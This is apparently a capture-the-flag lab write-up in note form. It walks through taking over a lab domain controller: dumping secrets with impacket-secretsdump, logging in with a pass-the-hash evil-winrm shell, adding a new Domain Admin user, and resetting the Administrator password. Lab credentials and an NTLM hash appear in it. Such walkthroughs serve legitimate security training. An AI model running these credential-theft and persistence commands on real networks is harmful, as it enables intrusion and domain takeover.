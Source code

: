 
## With svcBackups
Perform the same technique and dump secrets from the CORPDC machine, we will use the `svcBackups` account.

## Dump hashes on the `Server1` machine

$ `proxychains -q /usr/bin/impacket-secretsdump corp.thereserve.loc/svcBackups:'q9nzssaFtGHdqUV3Qv6G'@10.200.113.102`

![[Dumping secrets from CORPDC-20240601064020744.webp]]

Administrator:500:aad3b435b51404eeaad3b435b51404ee:d3d4edcc015856e386074795aea86b3e:::

## Connect using `evil-winrm`

$ `proxychains4 /usr/bin/evil-winrm -u Administrator -H d3d4edcc015856e386074795aea86b3e -i 10.200.113.102`

![[Dumping secrets from CORPDC-20240602155726615.webp]]

You'll get a shell.
Check out the hostname.

Evil-WinRM PS C:\Users\Administrator\Documents> `hostname`

![[Dumping secrets from CORPDC-20240602160026969.webp]]

### Create a new user as an Administrator

Evil-WinRM* PS C:\Users\Administrator\Documents> `net user kairos K41r@s123 /add /domain`

Username: kairos
Password:  K41r@s123

### Enumerate the groups to find the group name for the Administrator user

Evil-WinRM* PS C:\Users\Administrator\Documents> `net group`

![[Dumping secrets from CORPDC-20240604135830320.webp]]

### Add the new user to this group to make him the `Domain Admin`.

Evil-WinRM* PS C:\Users\Administrator\Documents> `net group "Domain Admins" kairos /add /domain`

### Display user's information


The `net user` command is a Windows command-line utility that can be used to display or modify user account information. The `/domain` switch is used with `net user` to specify that the operation should be performed on a domain controller, allowing you to view or change user account information in a domain environment.

Evil-WinRM* PS C:\Users\Administrator\Documents> `net user kairos /domain`

![[Dumping secrets from CORPDC-20240604140856658.webp]]

## Connect to RDP

$ `proxychains4 -q xfreerdp /v:10.200.113.102 /u:kairos /p:K41r@s123` 

### Getting flag 7
[[Flag Submission Process]]


## Change the Administrator's password.
Even though you are a member of Domain Admins group, you can access the Administrator's directoroy.


Evil-WinRM* PS C:\Users\Administrator\Documents> `net user Administrator Hacker@123 /domain`

#### Connect to RDP with the Administrator's credentials

$ `proxychains4 -q xfreerdp /v:10.200.113.102 /u:Administrator /p:Hacker@123 

### Getting flag 8

[[Flag Submission Process]]
